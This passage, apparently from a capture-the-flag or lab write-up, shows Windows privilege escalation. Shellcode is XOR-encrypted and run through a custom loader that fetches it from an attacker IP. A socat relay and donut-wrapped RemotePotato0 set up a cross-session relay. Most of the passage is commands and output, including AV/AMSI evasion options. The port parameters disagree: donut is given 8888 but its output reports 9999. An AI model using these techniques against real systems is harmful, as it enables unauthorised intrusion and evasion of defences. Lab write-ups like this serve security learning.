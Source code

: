 Now, I will xor the binary (my loader uses xor encryption)
```
└─$ python3 xor.py runascs.bin  13 runascs.run
```

I have my own staging loader that uses local mapping injection technique to run tools and remote injection to deploy beacons (not the best solution, but for this kind of tasks works fine). Seems like there's another session by `nigel.mills`.  
```
PS C:\programdata> ./rloader.exe web runt http://10.8.4.147/runascs.run
[i] Start ... 
[i] Start to retrieve payload from: h 
[i] Writing Shellcode To The Target Location ... 
[+] Running tool


 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 rdp-tcp#0         nigel.mills               1  Active
 console                                     2  Conn                        
 31c5ce94259d4...                        65536  Listen
 rdp-tcp                                 65537  Listen
[+] DONE Execuction

```

We can try cross session relay discussed in [HTB Absolute](https://0xdf.gitlab.io/2023/05/27/htb-absolute.html#shell-as-administrator)/[HTB Rebound](https://0xdf.gitlab.io/2024/03/30/htb-rebound.html#cross-session-relay) boxes. Setup `socat` required by [RemotePotato0](https://github.com/antonioCoco/RemotePotato0) to relay the traffic
```
└─$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.10.84.227:8888
```

Now generate payload for `RemotePotato0`. Need to use different port (not the one from examples in repo) to make it work
```
└─$  donut -i RemotePotato0.exe  -p "-m 2 -s 1 -x 10.8.4.147 -p 8888" -o potato.bin 

  [ Donut shellcode generator v1 (built Oct 23 2024 07:56:47)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : "/home/kali/tools/red-team/c2-toolkit/RemotePotato0.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : EXE
  [ Parameters    : -m 2 -s 1 -x 10.8.4.147 -p 9999
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "potato.bin"
  [ Exit          : Thread
```                                                                                                                                                                                              ```
└─$ python3 xor.py potato.bin 13 potato.run 
```
